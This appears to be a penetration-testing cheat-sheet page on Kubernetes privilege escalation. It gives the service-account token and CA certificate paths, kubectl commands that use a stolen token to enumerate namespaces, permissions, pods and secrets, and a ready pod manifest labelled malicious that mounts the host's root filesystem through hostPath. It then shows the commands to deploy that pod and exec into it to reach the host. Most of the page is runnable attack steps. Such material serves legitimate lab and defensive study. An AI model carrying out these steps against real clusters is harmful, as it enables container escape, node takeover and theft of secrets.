 ```yaml
---
title: "Kubernetes"
date: 2024-7-22
tags: ["Kubernetes", "container", "privesc"]
---
```


### Token Location

<div>

```console
/run/secrets/kubernetes.io/serviceaccount/token
```

</div>

### Certificate Location

<div>

```console
/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

</div>

### Basic Commands

<div>

```console
# List all namespaces
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get namespaces
```

```console
# Get user permissions in current namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list
```

```console
# Get user permissions in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list -n <NAMESPACE>
```

```console
# List all pods
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods --all-namespaces
```

```console
# List pods in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods -n <NAMESPACE>
```

```console
# Get YAML of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pod <POD_NAME> -o yaml
```

```console
# Get info of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe pod <POD_NAME> -n <NAMESPACE>
```

```console
# List secrets
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get secrets -n <NAMESPACE>
```

```console
# Get info of a secret
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe secret <SECRET_NAME> -n <NAMESPACE>
```

</div>

<small>*Ref: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)*</small>

<br>

---

### Abuse #1: Mount host's file system

#### 1. Create a Malicious YAML (Template)

<div>

```console
apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: <NAMESPACE_NAME>
spec:
  containers:
  - name: test
    image: <IMAGE_NAME>
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

</div>

#### 2. Create a new pod

<div>

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> apply -f test.yaml
```

</div>

#### 3. Execute

<div>

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> exec test --stdin --tty -n <NAMESPACE>
```

```console
# Check host filesystem
cd /mnt/root/
```

</div>

<br>